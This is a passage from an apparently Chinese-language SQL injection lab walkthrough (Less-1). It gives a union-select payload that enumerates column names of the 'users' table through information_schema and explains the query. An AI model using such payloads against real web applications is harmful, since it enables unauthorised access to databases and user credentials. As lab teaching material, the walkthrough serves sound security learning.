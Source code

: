 ![Less-1_17](./img/Less-1_17.png)



5. 注入<code>?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+</code>爆字段名，我们通过sql语句查询知道当前数据库有四个表，根据表名知道可能用户的账户和密码是在users表中。接下来想得到该表下的字段名以及内容。

~~~ shell
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

该语句意思是查询information_schema数据库下的columns表里table_name字段是users的所有column_name内容。注意table_name字段不是只存在于tables表也存在于columns表中;其实是表示所有字段对应的表名;
~~~

![Less-1_23](./img/Less-1_23.png)
